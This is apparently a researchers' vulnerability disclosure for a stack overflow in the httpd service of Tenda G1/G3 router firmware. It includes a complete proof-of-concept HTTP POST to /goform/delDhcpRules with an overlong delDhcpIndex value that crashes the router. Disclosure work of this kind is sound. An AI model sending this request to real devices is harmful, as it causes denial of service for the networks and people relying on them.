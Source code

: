 # Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In `formDelDhcpRule` function, `delDhcpIndex` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `delDhcpIndex` to crash the server.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked. The parameter `delDhcpIndex` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 



## PoC

We set `delDhcpIndex` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:

```http
POST /goform/delDhcpRules HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 213
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/network/lanSet.html?0.036428515378151505
Cookie: _:USERNAME:_=; G3v3_user=

delDhcpIndex=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## Result

The target router crashes and cannot provide services correctly and persistently.
